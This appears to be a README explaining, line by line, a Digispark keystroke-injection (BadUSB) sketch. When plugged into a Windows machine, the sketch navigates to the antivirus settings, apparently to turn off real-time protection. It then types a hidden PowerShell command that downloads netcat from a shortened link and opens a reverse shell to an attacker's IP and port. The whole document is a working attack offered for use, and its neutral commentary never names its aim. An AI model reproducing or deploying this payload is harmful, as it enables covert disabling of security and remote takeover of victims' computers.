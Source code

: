 <h1><div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text.Here is a breakdown of each line of code:</i></div></h1>

<code>#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code>void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code>DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code>DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code>  DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

<code>DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
<code>  DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code>DigiKeyboard.delay(700);</code>
 <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code>DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




